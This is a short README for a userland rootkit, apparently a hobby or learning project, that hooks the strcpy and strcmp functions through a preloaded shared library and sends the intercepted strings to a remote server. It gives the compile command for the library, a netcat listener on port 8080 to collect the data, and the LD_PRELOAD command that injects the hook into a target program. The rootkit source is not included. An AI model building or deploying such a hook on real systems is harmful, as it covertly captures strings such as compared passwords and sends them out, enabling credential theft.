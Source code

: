 # Description
This is a simple userland rootkit that simple hooks the strcpy and strcmp functions and tries to send it to a server.

## Compilation

Compile rootkit:
```
gcc -shared -fPIC Rootkit.c -o Rootkit.so -ldl
```

Compile test program:
```
gcc main.c
```

## Running

Simple netcat server for testing:
```
ncat -k -l -p 8080
```

Then simply run the following command to use rootkit:
```
LD_PRELOAD=./Rootkit.so ./a.out
```